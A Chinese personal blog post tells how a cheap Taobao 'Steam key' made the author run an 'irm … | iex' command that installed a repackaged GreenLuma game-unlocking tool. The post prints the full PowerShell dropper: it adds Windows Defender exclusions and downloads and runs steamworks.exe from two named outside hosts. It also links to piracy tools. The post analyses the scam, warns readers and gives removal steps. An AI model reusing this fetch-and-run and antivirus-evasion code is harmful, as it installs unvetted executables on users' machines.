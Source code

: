 ```yaml
---
layout: post
tags: ["steam","信息安全", "游戏", "greenluma"]
title: "廉价steam cdk其实在卖盗版甚至还坑到我了这件事！"
date: 2024-03-09T15:40:05+08:00
math: false
draft: false
toc: true
---
```


今天突然看到 steam 上的游戏 "House Flipper 2" -20%，虽说减完之后还剩 ￥108，但是毕竟，办法总比困难多，去淘宝看看有没有廉价 cdk 吧！结果，这导致我被店家的伎俩欺骗！

<!--more-->

<!-- toc -->

## 廉价 cdk

众所周知，有事就找万能的淘宝，打开淘宝，搜索 "House Flipper 2"，发现最便宜的 cdk 居然只要 ￥9.9，看起来狠虚假的价格，毕竟史低都是 ￥108。

但是，￥9.9，还要什么自行车？直接下单。

随后，店家发了一份使用说明：

> 首先打开终端，输入 `irm steamcdk.Link | iex`
>
> 随后会弹出输入 cdk 的窗口，在里面输入 cdk 即可激活
>
> cdk：AAAAA-BBBBB-CCCCC-DDDDD-EEEEE

乍一看倒是蛮正常的，仿佛是打开了什么 steamcdk 的功能。

特别提一下，**这里我直接在 steam 窗口内兑换，会提示无效兑换码**，但是当时鬼使神差觉得可能是因为需要用这个特殊的方法打开兑换窗口才行。

（说不定这就是人性的贪婪和懒惰，以后注意，不过花开两朵，各表一枝，我们先继续说被骗的事）

那按照前面所述，不得已，开个终端执行这个命令，然后弹出一个警告弹窗，"you are using steam beta files, greenluma ..."，啊不过当然最后不是省略号，可是忘了后面是什么内容了。

随后 steam 被启动，库里已经有了这个游戏。

## 发现问题

看起来很正常啊，合情合理，但是我之前把这个游戏加了购物车，现在还在购物车里。如果我是小白或许我就信了，但是很遗憾，我以前激活的游戏会从购物车中离开。

其次，在商店页面，仍然能够为自己购买这个游戏。

这时候我怀疑是家庭共享，并且找店家要求退款，表示这是共享的用不了。

店家虽然表示这不是共享，但是还是给退了。

但是！这个游戏，还在库里。

这不合常理，它为什么会在库里？

如果它真的有成本，店家为什么这么容易退款？

## 试图揭秘

### 那行命令是什么？

好，很巧，我以前曾经用过 `irm` 这个命令，虽然不那么熟悉，但是我用浏览器打开了 `steamcdk.link`，结果自动跳转到了 `http://steamcdk.link/sendfile`，并且其中有很多伪装的输出来假扮正版 `steam`，去掉这部分输出，剩余脚本如下：

```ps1
# [Console]::OutputEncoding = [System.Text.Encoding]::UTF8
#Requires -RunAsAdministrator

$isAdmin = [bool]([Security.Principal.WindowsIdentity]::GetCurrent().Groups -match 'S-1-5-32-544')
if (-not $isAdmin) {
    Write-Host "Please Run as Administrator"
}

$steamRegPath = 'HKCU:\Software\Valve\Steam'
$steamPath = (Get-ItemProperty -Path $steamRegPath -Name 'SteamPath').SteamPath
$root = $steamPath.Substring(0,1) # 鑾峰彇璺緞涓殑鐩樼閮ㄥ垎
$rest = $steamPath.Substring(1)   # 鑾峰彇璺緞涓洏绗﹀悗闈㈢殑閮ㄥ垎
$steamPath = $root.ToUpper() + $rest # 灏嗙洏绗﹂儴鍒嗚浆鎹负澶у啓

# $steamPath = $filePath -replace "/", "\"

# Write-Host $steamPath

if ($null -ne $steamPath) {
    try {
# exclude windows defender
        if (Get-Service | where-object { $_.name -eq "windefend" -and $_.status -eq "running" }) {
            Add-MpPreference -ExclusionPath $steamPath -ExclusionExtension ".dll",".exe"
            Write-Host "  [STEAM]  Windows Defender has been exclude"
        }
        else {
            Write-Host "  [STEAM] Windows Defender exclude failed."
        }

# display Message
        Write-Host "  [STEAM] App is ready for run .please wait... "
        Write-Host "  [STEAM] Windows Defender has been clear "
        Write-Host "  [STEAM] Ready to go !!! "
        Write-Host "  [STEAM] watiing 1-3min "

# download file and process
        $appStorePath = Join-Path $steamPath "steamworks.exe"
        $downloadUrl = "http://by.haory.cn/1/1128/steamworks.exe"
        $backupUrl = "https://m1744435.096096.xyz/steamworks.exe"

        try {
            (New-Object Net.WebClient).DownloadFile($downloadUrl, $appStorePath)
        } catch {
            Write-Warning "Steamcdk failed. [STEAM] watiing."
            try {
                (New-Object Net.WebClient).DownloadFile($backupUrl, $appStorePath)
            } catch {
                Write-Error "Steamcdk failed. Please check your internet connection or colse 鍏抽棴VPN閲嶈瘯."
            }
        }

# lauch execute our exe file;
        Start-Process -FilePath $appStorePath
    }
    catch {

    }
}
```

很简单的一段 `powershell` 脚本，首先获取管理员权限，随后获取 `Steam` 的安装路径记为 `$SteamPath`。

插段题外话，这里一个好笑的点是，这里有很多中文乱码是吧，这些乱码原来是 `gbk` 格式，但是被保存为了 `utf8`，所以变成了乱码，这四行乱码分别是

```ps1
$root = $steamPath.Substring(0,1) # 获取路径中的盘符部分
$rest = $steamPath.Substring(1)   # 获取路径中盘符后面的部分
$steamPath = $root.ToUpper() + $rest # 将盘符部分转换为大写

Write-Error "Steamcdk failed. Please check your internet connection or colse 关闭VPN重试."
```

*中文乱码恢复功能 powered by [WR便利工具网](https://wrtools.top/coderepair.php)*

在获取 `$SteamPath` 之后，为了防止被敏感拉满的 `Windows Defender` 干掉，它先把 `$SteamPath` 加入了 `Windows Defender` 的排除路径（白名单）。

随后，它尝试去 `http://by.haory.cn/1/1128/steamworks.exe` 下载这个 exe 文件，并放入 `$SteamPath` 中。如果这个网址不可用，则使用备份网址 `https://m1744435.096096.xyz/steamworks.exe` 来下载。不得不说，聪明的备份机制。

最后，执行下载得到的 `steamworks.exe` 文件，它会劫持并接管 steam 的启动。

### 之前有人遇到过吗？

有，而且有各种技法 ，列举三个常见的出来：

1. [家庭账号共享](https://zhuanlan.zhihu.com/p/619338811)
2. [steamip 助手（第三方软件）](https://tieba.baidu.com/p/8216526284)
3. [steamworks （就是我遇到这个）](https://www.bilibili.com/video/BV15u411x7Se/)

### 这个有多大危害呢？

好吧，其实危害并不大，记得前面那个警告窗口吗？`XXX greenluma XXX` 那个，这里面突兀出现的词 `GreenLuma` 其实就是破局点。

GreenLuma 是一款国外大神 Steam006 开发的游戏解锁工具（正版途径玩盗版），其实爱好者有很多都在使用这个工具，可以参考 [知乎介绍](https://zhuanlan.zhihu.com/p/638294581) 、[贴吧讲解](https://tieba.baidu.com/p/7951081224) 或者直接去 [Github 下载](https://github.com/BlueAmulet/GreenLuma-2024-Manager/releases)。

但是！这个店家重新打包成 `steamworks` 之后，由于不透明的原因，其中的危害是不可预知的，因此建议不要保留，通过彻底卸载并删除 steam 即可清除。

当然，因为我开了火绒的联网控制，可以看到这个 `steamworks`全程是没有主动联网的，所以应该不用担心账号密码被泄露的问题。

### 怎么清除

先卸载 steam，随后删除 steam 所在的文件夹，最后重新安装即可。

## 尝试总结

总之，贪小便宜吃大亏，好在退掉了，但愿以后不要再中这种漏洞百出的骗局。
